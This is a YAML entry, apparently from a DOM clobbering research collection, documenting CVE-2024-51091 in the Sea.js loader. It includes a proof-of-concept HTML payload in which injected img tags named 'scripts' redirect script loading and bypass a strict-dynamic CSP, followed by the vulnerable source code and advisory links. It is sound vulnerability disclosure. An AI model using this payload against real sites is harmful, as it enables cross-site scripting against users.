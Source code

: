 ```yaml
---
description: Sea.js is a module loader for the web. It is designed to change the way that you organize JavaScript. With Sea.js, it is pleasure to build scalable web applications.
github: seajs/seajs
gadgets:
  Latest:
    cve: CVE-2024-51091 
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - name-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: The [Sea.js](https://github.com/seajs/seajs) library uses the `src` attribute of the last element of `document.scripts` to load additional scripts.<br><br>*In the CVE advisory, it mentions version `≤2.2.3`, but it looks to work in the latest version (`3.0.3`).*
        code: |
          <!-- user input -->
          <img name="scripts">
          <img name="scripts" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/seajs/3.0.3/sea.js"></script>
          <script nonce="secret">
            seajs.config({
              alias: {
                "jquery": "jquery/jquery/1.10.1/jquery.js"
              }
            });
            seajs.use("index");
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247">https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247</a>

      ```javascript
      var doc = document
      var scripts = doc.scripts

      // Recommend to add `seajsnode` id for the `sea.js` script element
      var loaderScript = doc.getElementById("seajsnode") ||
        scripts[scripts.length - 1]

      function getScriptAbsoluteSrc(node) {
        return node.hasAttribute ? // non-IE6/7
          node.src :
          // see http://msdn.microsoft.com/en-us/library/ms536429(VS.85).aspx
          node.getAttribute("src", 4)
      }
      loaderPath = getScriptAbsoluteSrc(loaderScript)
      // When `sea.js` is inline, set loaderDir to current working directory
      loaderDir = dirname(loaderPath || cwd)
      ```
    links:
      - https://github.com/advisories/GHSA-pfr4-4397-3hg8
      - https://github.com/seajs/seajs/blob/master/src/util-path.js#L231-L247
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/seajs.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

